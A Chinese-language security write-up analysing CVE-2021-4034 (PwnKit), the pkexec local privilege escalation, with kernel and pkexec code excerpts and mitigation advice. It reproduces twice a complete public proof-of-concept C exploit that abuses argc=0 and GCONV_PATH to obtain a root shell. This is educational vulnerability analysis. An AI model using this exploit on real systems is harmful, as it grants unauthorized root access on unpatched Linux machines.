


# CVE-2021-4034 pkexec 本地提权漏洞 wp
CVE-2021-4034 pkexec 本地提权漏洞 wp

## 0x00 作者
[IceSword Lab](https://www.iceswordlab.com/about/)

## 0x01 漏洞基本信息
polkit 的 pkexec 程序中存在一个本地权限提升漏洞。当前版本的 pkexec 无法正确处理调用参数计数，并最终尝试将环境变量作为命令执行。攻击者可以通过控制环境变量来利用这一点，从而诱导 pkexec 执行任意代码。利用成功后，会导致本地特权升级，非特权用户获得管理员权限
### 软件简介
[polkit](https://gitlab.freedesktop.org/polkit/polkit/) 是一个应用程序级别的工具集，通过定义和审核权限规则，实现不同优先级进程间的通讯：控制决策集中在统一的框架之中，决定低优先级进程是否有权访问高优先级进程。

Polkit 在系统层级进行权限控制，提供了一个低优先级进程和高优先级进程进行通讯的系统。和 sudo 等程序不同，Polkit 并没有赋予进程完全的 root 权限，而是通过一个集中的策略系统进行更精细的授权。

Polkit 定义出一系列操作，例如运行 GParted, 并将用户按照群组或用户名进行划分，例如 wheel 群组用户。然后定义每个操作是否可以由某些用户执行，执行操作前是否需要一些额外的确认，例如通过输入密码确认用户是不是属于某个群组。
> https://wiki.archlinux.org/title/Polkit_(%E7%AE%80%E4%BD%93%E4%B8%AD%E6%96%87)

### 漏洞原理概括
当前版本的 pkexec 无法正确处理调用参数计数，并最终尝试将环境变量作为命令执行。攻击者可以通过控制环境变量来利用这一点，从而诱导 pkexec 执行任意代码。
### 前置知识
pkexec 是 polkit 的一个程序，可以以其他用户身份执行命令。
```bash
➜ pkexec --help
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
```
不指定 `--user` 参数时，缺省为 `root`。比如：
```bash
pkexec reboot
```


### 漏洞环境搭建
环境没有特殊要求，主流 Linux 发行版都可以。

本次测试的环境：
```bash
➜ uname -a
Linux ubuntu 5.11.0-46-generic #51~20.04.1-Ubuntu SMP Fri Jan 7 06:51:40 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
~ 
➜ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 20.04.3 LTS
Release:	20.04
Codename:	focal
➜ gcc --version
gcc (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
Copyright (C) 2019 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
➜ pkexec --version
pkexec version 0.105
```

## 0x02 漏洞分析
对该漏洞的分析将结合已知的 [POC](https://github.com/arthepsy/CVE-2021-4034) 和 Qualys 的[报告](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)进行。

### 分析 POC 
先来分析 POC：
```c
  1 #include <stdio.h>
  2 #include <stdlib.h>
  3 #include <unistd.h>
  4 
  5 char *shell =
  6         "#include <stdio.h>\n"
  7         "#include <stdlib.h>\n"
  8         "#include <unistd.h>\n\n"
  9         "void gconv() {}\n"
 10         "void gconv_init() {\n"
 11         "       setuid(0); setgid(0);\n"
 12         "       seteuid(0); setegid(0);\n"
 13         "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
 14         "       exit(0);\n"
 15         "}";
 16         
 17 int main(int argc, char *argv[]) {
 18         FILE *fp;
 19         system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
 20         system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
 21         fp = fopen("pwnkit/pwnkit.c", "w");
 22         fprintf(fp, "%s", shell);
 23         fclose(fp); 
 24         system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
 25         char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
 26         execve("/usr/bin/pkexec", (char*[]){NULL}, env);
 27 } 
```
在该 POC 中：  
1. L5-L15，即 payload，引入了一个 root 权限的 `/bin/sh`
1. L19，创建目录 `GCONV_PATH=.`，创建文件 `GCONV_PATH=./pwnkit` 并添加了执行权限
1. L20，创建目录 `pwnkit`，创建文件 `pwnkit/gconv-modules` 并写入内容 `module UTF-8// PWNKIT// pwnkit 2`
1. L21-L24，把 payload 写入 `pwnkit/pwnkit.c` 并编译为动态链接库 `pwnkit/pwnkit.so`
1. L25，一个特殊的数组
1. L26，使用 `execve` 调用 `pkexec`，这里有个特别的参数 `(char*[]){NULL}`，这也是整个 POC 的**启动点**

测试一下 POC：



### 奇妙的 argc 为 0
argc 和 argv 大家都熟悉，为了后面的分析这里再介绍一下：
- argc：即 argument count，保存运行时传递给 main 函数的参数个数。
- argv：即 argument vector，保存运行时传递 main 函数的参数，类型是一个字符指针数组，每个元素是一个字符指针，指向一个命令行参数。  
例如：
- argv[0] 指向程序运行时的全路径名；
- argv[1] 指向程序在命令行中执行程序名后的第一个字符串

下面的代码就展示了 argc 和 argv 用法：
```C
//t.c
#include <stdio.h>
int main(int argc, char *argv[]){
        printf("argc:%d\n",argc);
        for(int i=0;i<=argc;i++){
                printf("argv[%d]:%s\n",i,argv[i]);
        }
        return 0;
}

➜ gcc t.c -o t
~/t2 
➜ ./t
argc:1
argv[0]:./t
argv[1]:(null)
~/t2 
➜ ./t -l
argc:2
argv[0]:./t
argv[1]:-l
argv[2]:(null)
```
#### execve()
[execve()](https://man7.org/linux/man-pages/man2/execve.2.html) 可以执行程序，使用该函数需要引入 `unistd.h` 头文件，函数原型：
```C
       int execve(const char *pathname, char *const argv[],
                  char *const envp[]);
```
我们使用前面的 `t.c` 来熟悉一下 `execve()`：
```C
//ex.c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]){
    char *args[]={"./t","-l",NULL};
    char *enp[]={0,NULL};
    execve("./t",args,enp);
    return 0;
}

➜ vim ex.c
~/t2 took 24s 
➜ gcc ex.c -o ex
~/t2 
➜ ./ex 
argc:2
argv[0]:./t
argv[1]:-l
argv[2]:(null)
```
前面 POC 中 L26，使用了 `execve()`：
```C
 25         char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
 26         execve("/usr/bin/pkexec", (char*[]){NULL}, env);
```
但是参数使用方法和我们测试的不同，**第二个参数使用了 `(char*[]){NULL}` 进行填充**。我们来测试一下这样会有什么结果：
```C 
//ex.c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]){
    //char *args[]={"./t","-l",NULL};
    char *enp[]={0,NULL};
    execve("./t",(char*[]){NULL},enp);
    return 0;
}

~/t2 
➜ vim ex.c
~/t2 took 31s 
➜ gcc ex.c -o ex
~/t2 
➜ ./ex 
argc:0
argv[0]:(null)
```
此时我们发现 argc 为 0，且 argv[0] 内容为空，不再是程序本身。这有什么用呢？用处很大。

### pkexec 中的越界读取
现在来分析 pkexec 的代码，其 main() 函数主要结构如下：
```c
435 main (int argc, char *argv[])
436 {
...
534   for (n = 1; n < (guint) argc; n++)
535     {
...
568     }
...
610   path = g_strdup (argv[n]);
...
629   if (path[0] != '/')
630     {
...
632       s = g_find_program_in_path (path);
...
639       argv[n] = path = s;
640     }
```
其中有两个 glib 提供的函数 [g_strdup()](https://www.manpagez.com/html/glib/glib-2.56.0/glib-String-Utility-Functions.php#g-strdup) 和 [g_find_program_in_path()](https://docs.gtk.org/glib/func.find_program_in_path.html) ，先熟悉一下： 
> - `g_strdup()` 复制一个字符串，声明如下：
> ```C
> gchar *
> g_strdup (const gchar *str);
> ```
> - `g_find_program_in_path()` 在用户路径中定位第一个名为 program 的可执行程序，与 execvp() 定位它的方式相同。返回具有绝对路径名的已分配字符串，如果在路径中找不到程序，则返回 NULL。如果 program 已经是绝对路径，且如果 program 存在并且可执行，则返回 program 的副本，否则返回 NULL。
> ```C
> gchar*
> g_find_program_in_path (
>   const gchar* program
> )
> ```

再看 main() 函数中：
- L534-L568，用来处理命令行参数
  - L534：n=1，当 argc=1 时，不会进入循环，比如：`pkexec`；当 argc>1时，才会进入循环，比如：`pkexec --version`
- L610-L640，如果其路径不是绝对路径,会在 PATH 中搜索要执行的程序
  - L610：使用 `g_strdup()` 复制 `argv[n]` 的内容到 `path`，因为在 `pkexec` 中 `argv[n]` 就是目标路径，比如：`pkexec reboot`
  - L629：这里判断是否是绝对路径的方法比较巧妙，使用 `path[0] != '/'` 来判断
  - L632：检索目标路径，返回目标路径字符串
  - L639：将返回的路径赋值给 `path` 和 `argv[n]` 

正常情况下，这样处理的逻辑没有问题。
但如果命令行参数 argc 为 0，则会出现意外情况：
- L534，n 永久设置为 1；
- L610，`argv[1]` 发生越界读取，并把越界读取到的值赋给了 `path`；
- L639，指针 s 被越界写入 `argv[1]`。

问题在于，这个越界的 `argv[1]` 中读取和写入的是什么？

我们需要先了解参数的内存布局，结合内核代码来分析：
```c 
// linux5.4/fs/binfmt_elf.c:
163 static int
164 create_elf_tables(struct linux_binprm *bprm, struct elfhdr *exec,
165         unsigned long load_addr, unsigned long interp_load_addr)
166 {
...
284     sp = STACK_ADD(p, ei_index);
...
		// 布局 main 函数栈
306     /* Now, let's put argc (and argv, envp if appropriate) on the stack */
		// argc 入栈
307     if (__put_user(argc, sp++))
308         return -EFAULT;
309
		// argv 入栈
310     /* Populate list of argv pointers back to argv strings. */
311     p = current->mm->arg_end = current->mm->arg_start;
312     while (argc-- > 0) {
313         size_t len;
314         if (__put_user((elf_addr_t)p, sp++))
315             return -EFAULT;
316         len = strnlen_user((void __user *)p, MAX_ARG_STRLEN);
317         if (!len || len > MAX_ARG_STRLEN)
318             return -EINVAL;
319         p += len;
320     }
		// argv null 入栈
321     if (__put_user(0, sp++))
322         return -EFAULT;
323     current->mm->arg_end = p;
324
		// env 入栈
325     /* Populate list of envp pointers back to envp strings. */
326     current->mm->env_end = current->mm->env_start = p;
327     while (envc-- > 0) {
328         size_t len;
329         if (__put_user((elf_addr_t)p, sp++))
330             return -EFAULT;
331         len = strnlen_user((void __user *)p, MAX_ARG_STRLEN);
332         if (!len || len > MAX_ARG_STRLEN)
333             return -EINVAL;
334         p += len;
335     }
		// env null 入栈
336     if (__put_user(0, sp++))
337         return -EFAULT;\
...
}
```
从代码中可以看出，当 execve() 一个新程序时，内核将参数、环境字符串和指针（argv 和 envp）复制到新程序堆栈的末尾，main 函数参数是布局在栈上，argc、argv依次入栈（L307、L321），后面紧接着就是 env 入栈（L325-L336）。
把上面的代码简化成下面的图示：
```
|---------+---------+-----+------------|---------+---------+-----+------------|
| argv[0] | argv[1] | ... | argv[argc] | envp[0] | envp[1] | ... | envp[envc] |
|----|----+----|----+-----+-----|------|----|----+----|----+-----+-----|------|
     V         V                V           V         V                V
 "program" "-option"           NULL      "value" "PATH=name"          NULL
```
可以发现 argv 和 envp 指针在内存中是连续的，如果 argc 为 0，那么越界 argv[1] 实际上是 `envp[0]`，指向第一个环境变量 `value` 的指针。

argv[1] 是什么解决了，那再回过来看 pkexec 的 main() 函数
```c
435 main (int argc, char *argv[])
436 {
...
534   for (n = 1; n < (guint) argc; n++)
535     {
...
568     }
...
610   path = g_strdup (argv[n]);
...
629   if (path[0] != '/')
630     {
...
632       s = g_find_program_in_path (path);
...
639       argv[n] = path = s;
640     }
```
- L610，要执行的程序的路径从 argv[1]（即 `envp[0]`）越界读取，并指向 `value`
- L632，这个路径 `value` 被传递给 `g_find_program_in_path()`
- `g_find_program_in_path()` 会在 PATH 环境变量的目录中搜索一个名为 `value` 的可执行文件
- 如果找到这样的可执行文件，则将其完整路径返回给 pkexec 的 main() 函数（L632）
- 最后，L639，这个完整路径被越界写入 argv[1]（即 `envp[0]`），覆盖了第一个环境变量。

因此只要能控制 `g_find_program_in_path` 返回的字符串，就可以注入任意的环境变量。

Qualys [指出](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)如果 PATH 环境变量是 `PATH=name`，并且目录 `name` 存在（在当前工作目录中）并且包含一个名为 `value` 的可执行文件，则写入一个指向字符串 `name/value` 的指针越界到 `envp[0]`。

进一步，让这个组合的文件名里包含等号 "="。传入 `PATH=name=.` ，创建一个 `name=.` 目录，并在其中放一个可执行文件 `value`，最终 `envp[0]` 就会被篡改为 `name=./value`，也就是注入了一个新的环境变量进去。

换句话说，这种越界写入可以绕过原有的安全检查，将不安全的环境变量（例如，LD_PRELOAD）重新引入 pkexec 的环境。

### 寻找不安全的环境变量
新的问题是：要成功利用这个漏洞，应该将哪个不安全变量重新引入 pkexec 的环境中？我们的选择是有限的，因为在越界写入后不久（L639），pkexec 完全清除了它的环境（L702）：
```c 
 639       argv[n] = path = s;
 ...
 657   for (n = 0; environment_variables_to_save[n] != NULL; n++)
 658     {
 659       const gchar *key = environment_variables_to_save[n];
 ...
 662       value = g_getenv (key);
 ...
 670       if (!validate_environment_variable (key, value))
 ...
 675     }
 ...
 702   if (clearenv () != 0)
```
答案来自于 pkexec 的复杂性：为了向 stderr 打印错误消息，pkexec 调用 GLib 的函数 `g_printerr()`（注意：GLib 是 GNOME 库，而不是 GNU C 库，即 glibc）；例如，函数 `validate_environment_variable()` 和 `log_message()` 调用 `g_printerr()` （L126，L408-L409）：
```c
  88 log_message (gint     level,
  89              gboolean print_to_stderr,
  90              const    gchar *format,
  91              ...)
  92 {
 ...
 125   if (print_to_stderr)
 126     g_printerr ("%s\n", s);
------------------------------------------------------------------------
 383 validate_environment_variable (const gchar *key,
 384                                const gchar *value)
 385 {
 ...
 406           log_message (LOG_CRIT, TRUE,
 407                        "The value for the SHELL variable was not found the /etc/shells file");
 408           g_printerr ("\n"
 409                       "This incident has been reported.\n");
```
`g_printerr()` 通常打印 UTF-8 错误消息，但如果环境变量 CHARSET 不是 UTF-8，它可以打印另一个字符集中的消息（注意：CHARSET 不是安全敏感的，它不是不安全的环境变量）。

要将消息从 UTF-8 转换为另一个字符集，`g_printerr()` 调用 glibc 的函数 `iconv_open()`。

要将消息从一个字符集转换为另一个字符集，`iconv_open()` 执行小型共享库；通常，这些三元组（“from”字符集、“to”字符集和库名称）是从默认配置文件 `/usr/lib/gconv/gconv-modules` 中读取的。但环境变量 `GCONV_PATH` 可以强制 `iconv_open()` 读取另一个配置文件；所以 `GCONV_PATH` 是不安全的环境变量之一（因为它会导致执行任意库），因此会被 ld.so 从 SUID 程序的环境中删除。

我们可以把 `GCONV_PATH` 重新引入 pkexec 的环境，并以 root 身份执行我们自己的共享库。

### 回顾 POC 
现在我们对漏洞原理有了更深的认识，再看一看 POC
```c
  1 #include <stdio.h>
  2 #include <stdlib.h>
  3 #include <unistd.h>
  4 
  5 char *shell =
  6         "#include <stdio.h>\n"
  7         "#include <stdlib.h>\n"
  8         "#include <unistd.h>\n\n"
  9         "void gconv() {}\n"
 10         "void gconv_init() {\n"
 11         "       setuid(0); setgid(0);\n"
 12         "       seteuid(0); setegid(0);\n"
 13         "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
 14         "       exit(0);\n"
 15         "}";
 16         
 17 int main(int argc, char *argv[]) {
 18         FILE *fp;
 19         system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
 20         system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
 21         fp = fopen("pwnkit/pwnkit.c", "w");
 22         fprintf(fp, "%s", shell);
 23         fclose(fp); 
 24         system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
 25         char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
 26         execve("/usr/bin/pkexec", (char*[]){NULL}, env);
 27 } 
```
需要新注意的是：
1. L26，使用 `execve` 调用 `pkexec`，`(char*[]){NULL}`造成 `argv[1]` 越界读取
1. L25，一个特殊的数组，env[0]为 payload，env[1]引入了`GCONV_PATH`
1. L20，设置非UTF-8环境，也就导致 payload 中 `gconv_init` 执行，造成 `/bin/sh` 执行，恢复环境变量得到 root shell。

## 0x03 漏洞总结
总结一下该漏洞的利用思路：
1. 通过设置 `execve()` 的 argv[] 为零，造成 argv[1] 越界读取，并绕过安全检查
1. 通过 `g_printerr` 函数发现可控的不安全环境变量 `GCONV_PATH`
1. 构造畸形的路径使 `pkexec` 从指定路径读取环境变量完成提权

这个漏洞的质量非常好，利用思路也很有趣，借用一下 Qualys 对该漏洞的[评价](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)：
> 这个漏洞是攻击者的梦想成真。
>
> - pkexec 默认安装在所有主要的 Linux 发行版上（我们利用了 Ubuntu、Debian、Fedora、CentOS，而其他发行版也可能利用）
> - pkexec 自 2009 年 5 月创建以来就存在漏洞（commit c8c3d83, "Add a pkexec(1) command"）
> - 任何没有特权的本地用户都可以利用这个漏洞来获得完全的 root 权限。
> - 虽然这个漏洞在技术上是一个内存损坏，但它可即时、可靠地、以独立于架构的方式加以利用。
> - 即使 polkit 守护进程本身没有运行，也可以利用。

## 0x04 漏洞补丁
### a. 如何检测该漏洞
检查组件版本：
```bash
➜ pkexec --version
pkexec version 0.105
```
### b. 如何防御该漏洞
及时升级组件
### c. 有没有哪种通用的缓解措施可以阻断该漏洞
Qualys 在 [报告](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt) 中给出了缓解措施：
```
# chmod 0755 /usr/bin/pkexec
```
即从 pkexec 中删除 SUID 位

RedHat 给出了针对该漏洞的缓解措施：
> https://access.redhat.com/security/vulnerabilities/RHSB-2022-001

## 0x05 参考
1. [CVE-2021-4034 pkexec 本地提权 - 非尝咸鱼贩 [2022-01-26]](https://mp.weixin.qq.com/s/3rnkcRfX_BxzlVzp0stQRw)
1. [PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) | Qualys Security Blog](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
1. https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
1. 演示视频：[PwnKit Vulnerability on Vimeo](https://vimeo.com/669715589)
1. Commit：[pkexec: local privilege escalation (CVE-2021-4034) (a2bf5c9c) · Commits · polkit / polkit · GitLab](https://gitlab.freedesktop.org/polkit/polkit/-/commit/a2bf5c9c83b6ae46cbd5c779d3055bff81ded683)
1. POC：[arthepsy/CVE-2021-4034: PoC for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](https://github.com/arthepsy/CVE-2021-4034)
1. [oss-security - pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.openwall.com/lists/oss-security/2022/01/25/11)
1. [CVE-2021-4034:Linux Polkit 权限提升漏洞通告 - 360CERT [2022-01-26]](https://cert.360.cn/warning/detail?id=25d7a6ec96c91ca4e4238fd10da2c778)

###  更早的相关研究
- [Privilege escalation with polkit: How to get root on Linux with a seven-year-old bug | The GitHub Blog [2021-06-10]](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)
- [argv silliness | ~ryiron [2013-12-16]](https://ryiron.wordpress.com/2013/12/16/argv-silliness/)
- [pkexec - Race Condition Privilege Escalation (CVE-2011-1485)  - Linux local Exploit [2011-10-08]](https://www.exploit-db.com/exploits/17942)
- [glibc locale issues - Tavis Ormandy [2014-07-14]](https://www.openwall.com/lists/oss-security/2014/07/14/1)
- [charset.alias in pkexec/glib/gnulib (was: glibc locale issues) - Jakub Wilk [2017-06-23]](https://www.openwall.com/lists/oss-security/2017/06/23/8)
- [Getting Arbitrary Code Execution from fopen's 2nd Argument | The Pwnbroker [2019-11-04]](https://hugeh0ge.github.io/2019/11/04/Getting-Arbitrary-Code-Execution-from-fopen-s-2nd-Argument/)
- [Simple Bugs and Vulnerabilities in Linux Distributions - Silvio Cesare [2011-03-25]](https://www.slideshare.net/SilvioCesare/simple-bugs-and-vulnerabilities-in-linux-distributions)